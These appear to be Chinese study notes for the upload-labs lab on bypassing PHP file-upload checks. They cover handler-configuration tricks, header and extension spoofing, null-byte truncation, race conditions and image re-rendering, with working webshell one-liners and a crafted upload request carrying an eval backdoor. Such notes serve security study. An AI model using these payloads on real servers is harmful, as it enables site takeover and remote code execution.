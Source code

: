 
---
![[upload.jpg]]

![[upload_tree.jpg]]
➢ PHP-原生态-文件上传-前后端验证

➢ PHP-原生态-文件上传-类型文件头验证

➢ PHP-原生态-文件上传-后缀黑白名单验证

➢ PHP-原生态-文件上传-解析配置&二次渲染

➢ PHP-原生态-文件上传-逻辑缺陷&函数缺陷
#upload-labs-docker知识点

**1、前端JS**

如何判断是否是前端验证呢？

首先抓包监听，如果上传文件的时候还没有抓取到数据包，但是浏览器就提示文件类型不正确的话，那么这个多半就是前端校验了

**2、.htaccess或者.user.ini**
	`.htaccess`
	`AddType application/x-httpd-php .png`
	`.user.ini`
	`auto_prepend_file =getshell.png`
**3、MIME类型**
	Content-Type：image/png
**4、文件头判断**
	
```
GIF89a
```
**5、黑名单-过滤不严**
	无递归，pphphp
**6、黑名单-过滤不严**
	系统大小写敏感属性
**7、低版本GET-%00截断**
```
	get请求会自动解码一次
	/var/www/html/upload/x.php%00
```
**8、低版本POST-%00截断**
```
	post请求不会自动解码，需要手工解码一次
	../upload/x.php%00 二次解码
```
**9、黑名单-过滤不严**
```
（可使用fuzz工具爆破）
	php3等
	phtml
	1. <script language="php">eval($_POST['cmd']);phpinfo();</script>
	
```
**10、逻辑不严-条件竞争**
```
	例如：存在先保存文件，在进行过滤删除
	
	代码功能是执行该代码时，会自动创建一个文件，并写入恶意代码
	
	<?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
	
	上传不断发包
	
	请求不断发包
```
**11、二次渲染**
```
（网站可能会对图片进行渲染，从而使植入的代码被删除）（010editor工具）
首先
	先搞个正常图片，上传导出渲染后的图片
然后
	对比保留部分，在保留部分添加后门代码

最后
	利用提示的文件包含执行图片后门代码
```
**12、函数缺陷**
```
（保存的文件名可控）
	move_uploaded_file 1.php/.
```
**13、代码审计-数组绕过**
```
	-----------------------------174283082921961
	Content-Disposition: form-data; name="save_name[0]"
	http://2.php/
	-----------------------------174283082921961
	Content-Disposition: form-data; name="save_name[2]"
	gif
```


#附录、无法连接时，指令

[[CSRF跨站请求伪造&Referer同源&置空&配合XSS&Token值校验&复用删除]]

文件上传请求包构造

```

POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xx.xx.xx.xx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 265

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo 'hello!!!';@eval($_POST['aw'])?>
----------------------------921378126371623762173617--

```


